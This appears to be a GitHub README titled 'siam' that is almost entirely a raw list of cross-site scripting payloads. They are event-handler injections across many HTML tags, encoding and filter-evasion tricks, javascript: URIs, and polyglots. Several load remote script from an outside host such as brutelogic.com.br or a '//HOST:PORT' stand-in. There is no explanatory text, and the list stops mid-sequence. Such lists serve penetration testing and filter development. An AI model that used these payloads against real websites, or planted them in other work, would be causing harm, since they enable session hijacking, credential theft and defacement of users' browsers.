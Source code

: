 # siam
<h1>siam</h1>
"><script>alert(1)</script>
<a src="https://www.google.com">siam</a>

<a href="https://www.w3schools.com">Visit W3Schools.com!</a>
<a href="https://www.w3schools.com" target="_blank">Visit W3ncncnSchools.com!</a>
<a href="https://www.w3schools.com" target="_parent">Visit W3Schncncndnndndndndndnools.com!</a>
<a href="https://www.w3schools.com" target="_self">Visit W3Schooopoppopoopls.com!</a>
<a href="https://www.w3schools.com" target="_top">Visit W3Sssssssss!!chools.com!</a>
<a href="https://www.w3schools.com" target="_blank">Visit W3Schoo!!!ls.com!</a>
<img src="" onerror=alert(1)>

"""">/////////\\\\\\\\\\>>>>>>>>>>>>><<<<>>>><>><<><>><>"""""""""/////////////""">


"-prompt(8)-"
'-prompt(8)-'
";a=prompt,a()//
';a=prompt,a()//
'-eval("window['pro'%2B'mpt'](8)")-'
"-eval("window['pro'%2B'mpt'](8)")-"
"onclick=prompt(8)>"@x.y
"onclick=prompt(8)><svg/onload=prompt(8)>"@x.y
<image/src/onerror=prompt(8)>
<img/src/onerror=prompt(8)>
<image src/onerror=prompt(8)>
<img src/onerror=prompt(8)>
<image src =q onerror=prompt(8)>
<img src =q onerror=prompt(8)>
</scrip</script>t><img src =q onerror=prompt(8)>
<svg onload=alert(1)>
"><svg onload=alert(1)//
"onmouseover=alert(1)//
"autofocus/onfocus=alert(1)//
'-alert(1)-'
'-alert(1)//
\'-alert(1)//
</script><svg onload=alert(1)>
<x contenteditable onblur=alert(1)>lose focus! 
<x onclick=alert(1)>click this! 
<x oncopy=alert(1)>copy this! 
<x oncontextmenu=alert(1)>right click this! 
<x oncut=alert(1)>copy this! 
<x ondblclick=alert(1)>double click this! 
<x ondrag=alert(1)>drag this! 
<x contenteditable onfocus=alert(1)>focus this! 
<x contenteditable oninput=alert(1)>input here! 
<x contenteditable onkeydown=alert(1)>press any key! 
<x contenteditable onkeypress=alert(1)>press any key! 
<x contenteditable onkeyup=alert(1)>press any key! 
<x onmousedown=alert(1)>click this! 
<x onmousemove=alert(1)>hover this! 
<x onmouseout=alert(1)>hover this! 
<x onmouseover=alert(1)>hover this! 
<x onmouseup=alert(1)>click this! 
<x contenteditable onpaste=alert(1)>paste here!
<script>alert(1)// 
<script>alert(1)<!–
<script src=//brutelogic.com.br/1.js> 
<script src=//3334957647/1>
%3Cx onxxx=alert(1) 
<%78 onxxx=1 
<x %6Fnxxx=1 
<x o%6Exxx=1 
<x on%78xx=1 
<x onxxx%3D1
<X onxxx=1 
<x OnXxx=1 
<X OnXxx=1 
<x onxxx=1 onxxx=1
<x/onxxx=1 
<x%09onxxx=1 
<x%0Aonxxx=1 
<x%0Conxxx=1 
<x%0Donxxx=1 
<x%2Fonxxx=1 
<x 1='1'onxxx=1 
<x 1="1"onxxx=1
<x </onxxx=1 
<x 1=">" onxxx=1 
<http://onxxx%3D1/
<x onxxx=alert(1) 1='
<svg onload=setInterval(function(){with(document)body.appendChild(createElement('script')).src='//HOST:PORT'},0)>
'onload=alert(1)><svg/1='
'>alert(1)</script><script/1=' 
*/alert(1)</script><script>/*
*/alert(1)">'onload="/*<svg/1='
`-alert(1)">'onload="`<svg/1='
*/</script>'>alert(1)/*<script/1='
<script>alert(1)</script> 
<script src=javascript:alert(1)> 
<iframe src=javascript:alert(1)> 
<embed src=javascript:alert(1)> 
<a href=javascript:alert(1)>click 
<math><brute href=javascript:alert(1)>click 
<form action=javascript:alert(1)><input type=submit> 
<isindex action=javascript:alert(1) type=submit value=click> 
<form><button formaction=javascript:alert(1)>click 
<form><input formaction=javascript:alert(1) type=submit value=click> 
<form><input formaction=javascript:alert(1) type=image value=click> 
<form><input formaction=javascript:alert(1) type=image src=SOURCE> 
<isindex formaction=javascript:alert(1) type=submit value=click> 
<object data=javascript:alert(1)> 
<iframe srcdoc=<svg/o&#x6Eload&equals;alert&lpar;1)&gt;> 
<svg><script xlink:href=data:,alert(1) /> 
<math><brute xlink:href=javascript:alert(1)>click 
<svg><a xmlns:xlink=http://www.w3.org/1999/xlink xlink:href=?><circle r=400 /><animate attributeName=xlink:href begin=0 from=javascript:alert(1) to=&>
<html ontouchstart=alert(1)> 
<html ontouchend=alert(1)> 
<html ontouchmove=alert(1)> 
<html ontouchcancel=alert(1)>
<body onorientationchange=alert(1)>
"><img src=1 onerror=alert(1)>.gif
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>
GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;
<script src="data:&comma;alert(1)//
"><script src=data:&comma;alert(1)//
<script src="//brutelogic.com.br&sol;1.js&num; 
"><script src=//brutelogic.com.br&sol;1.js&num; 
<link rel=import href="data:text/html&comma;&lt;script&gt;alert(1)&lt;&sol;script&gt; 
"><link rel=import href=data:text/html&comma;&lt;script&gt;alert(1)&lt;&sol;script&gt;
<base href=//0>
<script/src="data:&comma;eval(atob(location.hash.slice(1)))//#alert(1)
<body onload=alert(1)>
<body onpageshow=alert(1)>
<body onfocus=alert(1)>
<body onhashchange=alert(1)><a href=#x>click this!#x
<body style=overflow:auto;height:1000px onscroll=alert(1) id=x>#x
<body onscroll=alert(1)><br><br><br><br>
<br><br><br><br><br><br><br><br><br><br>
<br><br><br><br><br><br><br><br><br><br>
<br><br><br><br><br><br><x id=x>#x
<body onresize=alert(1)>press F12!
<body onhelp=alert(1)>press F1! (MSIE)
<marquee onstart=alert(1)>
<marquee loop=1 width=0 onfinish=alert(1)>
<audio src onloadstart=alert(1)>
<video onloadstart=alert(1)><source>
<input autofocus onblur=alert(1)>
<keygen autofocus onfocus=alert(1)>
<form onsubmit=alert(1)><input type=submit>
<select onchange=alert(1)><option>1<option>2
<menu id=x contextmenu=x onshow=alert(1)>right click me!
alert`1`
alert&lpar;1&rpar;
alert&#x28;1&#x29
alert&#40;1&#41
(alert)(1)
a=alert,a(1)
[1].find(alert)
top["al"+"ert"](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
top['al\145rt'](1)
top['al\x65rt'](1)
top[8680439..toString(30)](1)
navigator.vibrate(500)
eval(URL.slice(-8))>#alert(1)
eval(location.hash.slice(1)>#alert(1)
innerHTML=location.hash>#<script>alert(1)</script>
<a draggable="true" ondrag="alert(1)">test</a>
<a draggable="true" ondragend="alert(1)">test</a>
<a draggable="true" ondragenter="alert(1)">test</a>
<a draggable="true" ondragleave="alert(1)">test</a>
<a draggable="true" ondragstart="alert(1)">test</a>
<a id=x tabindex=1 onactivate=alert(1)></a>
<a id=x tabindex=1 onbeforeactivate=alert(1)></a>
<a id=x tabindex=1 onbeforedeactivate=alert(1)></a><input autofocus>
<a id=x tabindex=1 ondeactivate=alert(1)></a><input id=y autofocus>
<a id=x tabindex=1 onfocus=alert(1)></a>
<a id=x tabindex=1 onfocusin=alert(1)></a>
<a onbeforecopy="alert(1)" contenteditable>test</a>
<a onbeforecut="alert(1)" contenteditable>test</a>
<a onbeforepaste="alert(1)" contenteditable>test</a>
<a onblur=alert(1) tabindex=1 id=x></a><input autofocus>
<a onclick="alert(1)">test</a>
<a oncontextmenu="alert(1)">test</a>
<a oncopy="alert(1)" contenteditable>test</a>
<a oncut="alert(1)" contenteditable>test</a>
<a ondblclick="alert(1)">test</a>
<a onfocusout=alert(1) tabindex=1 id=x></a><input autofocus>
<a onkeydown="alert(1)" contenteditable>test</a>
<a onkeypress="alert(1)" contenteditable>test</a>
<a onkeyup="alert(1)" contenteditable>test</a>
<a onmousedown="alert(1)">test</a>
<a onmouseenter="alert(1)">test</a>
<a onmouseleave="alert(1)">test</a>
<a onmousemove="alert(1)">test</a>
<a onmouseout="alert(1)">test</a>
<a onmouseover="alert(1)">test</a>
<a onmouseup="alert(1)">test</a>
<a onpaste="alert(1)" contenteditable>test</a>
<abbr draggable="true" ondrag="alert(1)">test</abbr>
<abbr draggable="true" ondragend="alert(1)">test</abbr>
<abbr draggable="true" ondragenter="alert(1)">test</abbr>
<abbr draggable="true" ondragleave="alert(1)">test</abbr>
<abbr draggable="true" ondragstart="alert(1)">test</abbr>
<abbr id=x tabindex=1 onactivate=alert(1)></abbr>
<abbr id=x tabindex=1 onbeforeactivate=alert(1)></abbr>
<abbr id=x tabindex=1 onbeforedeactivate=alert(1)></abbr><input autofocus>
<abbr id=x tabindex=1 ondeactivate=alert(1)></abbr><input id=y autofocus>
<abbr id=x tabindex=1 onfocus=alert(1)></abbr>
<abbr id=x tabindex=1 onfocusin=alert(1)></abbr>
<abbr onbeforecopy="alert(1)" contenteditable>test</abbr>
<abbr onbeforecut="alert(1)" contenteditable>test</abbr>
<abbr onbeforepaste="alert(1)" contenteditable>test</abbr>
<abbr onblur=alert(1) tabindex=1 id=x></abbr><input autofocus>
<abbr onclick="alert(1)">test</abbr>
<abbr oncontextmenu="alert(1)">test</abbr>
<abbr oncopy="alert(1)" contenteditable>test</abbr>
<abbr oncut="alert(1)" contenteditable>test</abbr>
<abbr ondblclick="alert(1)">test</abbr>
<abbr onfocusout=alert(1) tabindex=1 id=x></abbr><input autofocus>
<abbr onkeydown="alert(1)" contenteditable>test</abbr>
<abbr onkeypress="alert(1)" contenteditable>test</abbr>
<abbr onkeyup="alert(1)" contenteditable>test</abbr>
<abbr onmousedown="alert(1)">test</abbr>
<abbr onmouseenter="alert(1)">test</abbr>
<abbr onmouseleave="alert(1)">test</abbr>
<abbr onmousemove="alert(1)">test</abbr>
<abbr onmouseout="alert(1)">test</abbr>
<abbr onmouseover="alert(1)">test</abbr>
<abbr onmouseup="alert(1)">test</abbr>
<abbr onpaste="alert(1)" contenteditable>test</abbr>
<acronym draggable="true" ondrag="alert(1)">test</acronym>
<acronym draggable="true" ondragend="alert(1)">test</acronym>
<acronym draggable="true" ondragenter="alert(1)">test</acronym>
<acronym draggable="true" ondragleave="alert(1)">test</acronym>
<acronym draggable="true" ondragstart="alert(1)">test</acronym>
<acronym id=x tabindex=1 onactivate=alert(1)></acronym>
<acronym id=x tabindex=1 onbeforeactivate=alert(1)></acronym>
<acronym id=x tabindex=1 onbeforedeactivate=alert(1)></acronym><input autofocus>
<acronym id=x tabindex=1 ondeactivate=alert(1)></acronym><input id=y autofocus>
<acronym id=x tabindex=1 onfocus=alert(1)></acronym>
<acronym id=x tabindex=1 onfocusin=alert(1)></acronym>
<acronym onbeforecopy="alert(1)" contenteditable>test</acronym>
<acronym onbeforecut="alert(1)" contenteditable>test</acronym>
<acronym onbeforepaste="alert(1)" contenteditable>test</acronym>
<acronym onblur=alert(1) tabindex=1 id=x></acronym><input autofocus>
<acronym onclick="alert(1)">test</acronym>
<acronym oncontextmenu="alert(1)">test</acronym>
<acronym oncopy="alert(1)" contenteditable>test</acronym>
<acronym oncut="alert(1)" contenteditable>test</acronym>
<acronym ondblclick="alert(1)">test</acronym>
<acronym onfocusout=alert(1) tabindex=1 id=x></acronym><input autofocus>
<acronym onkeydown="alert(1)" contenteditable>test</acronym>
<acronym onkeypress="alert(1)" contenteditable>test</acronym>
<acronym onkeyup="alert(1)" contenteditable>test</acronym>
<acronym onmousedown="alert(1)">test</acronym>
<acronym onmouseenter="alert(1)">test</acronym>
<acronym onmouseleave="alert(1)">test</acronym>
<acronym onmousemove="alert(1)">test</acronym>
<acronym onmouseout="alert(1)">test</acronym>
<acronym onmouseover="alert(1)">test</acronym>
<acronym onmouseup="alert(1)">test</acronym>
<acronym onpaste="alert(1)" contenteditable>test</acronym>
<address draggable="true" ondrag="alert(1)">test</address>
<address draggable="true" ondragend="alert(1)">test</address>
<address draggable="true" ondragenter="alert(1)">test</address>
<address draggable="true" ondragleave="alert(1)">test</address>
<address draggable="true" ondragstart="alert(1)">test</address>
<address id=x tabindex=1 onactivate=alert(1)></address>
<address id=x tabindex=1 onbeforeactivate=alert(1)></address>
<address id=x tabindex=1 onbeforedeactivate=alert(1)></address><input autofocus>
<address id=x tabindex=1 ondeactivate=alert(1)></address><input id=y autofocus>
<address id=x tabindex=1 onfocus=alert(1)></address>
<address id=x tabindex=1 onfocusin=alert(1)></address>
<address onbeforecopy="alert(1)" contenteditable>test</address>
<address onbeforecut="alert(1)" contenteditable>test</address>
<address onbeforepaste="alert(1)" contenteditable>test</address>
<address onblur=alert(1) tabindex=1 id=x></address><input autofocus>
<address onclick="alert(1)">test</address>
<address oncontextmenu="alert(1)">test</address>
